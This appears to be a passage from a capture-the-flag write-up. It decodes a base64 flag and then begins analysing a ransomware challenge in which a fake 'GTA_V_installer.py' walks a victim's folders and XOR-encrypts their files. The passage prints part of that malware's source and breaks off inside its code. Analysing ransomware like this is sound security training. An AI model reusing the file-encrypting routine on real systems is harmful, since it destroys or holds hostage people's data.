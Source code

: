  ```bash
 echo -n "REdIQUNLe1N5c3RlbURJc0FGcmVuY2hFeHByZXNzaW9uQWJvdXRMaXZpbmdPdXRPZlJlc291cmNlZnVsbmVzc1dpd GhMaXR0bGVNb25leX0K" | base64 -d
 #DGHACK{**...}
 ```



### Not a good name - Pas Un Bon Nom

> I was just sitting there on my PC, m'kay? I'm downloading movies and stuff, mkay? And then there's this weird message that I have to pay Dogecoin to decrypt my data. I didn't do it... so now my data is encrypted :( So here, take the hard drive, it's not like it's useful now... Unless it was possible to find the key used by that evil hacker, m'kay? Would you like it? You'd be lovely thank you!

```bash
ls 
#pc-jeane.ova
```

ova -> virtualbox

once started, we now know that the OS is Lubuntu

```bash
ls
#Desktop    Downloads           Music     Public                          Templates
#Documents  GTA_V_installer.py  Pictures  READ_TO_RETRIEVE_YOUR_DATA.txt  Videos
```

The two files with capitalized names stand out, and indeed![image-20221111230502233](/home/mallon/.config/Typora/typora-user-images/image-20221111230502233.png)

It seems that the owner has downloaded a lot of stuff including a supra legit GTA-V.

*GTA_V_installer.py*

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
```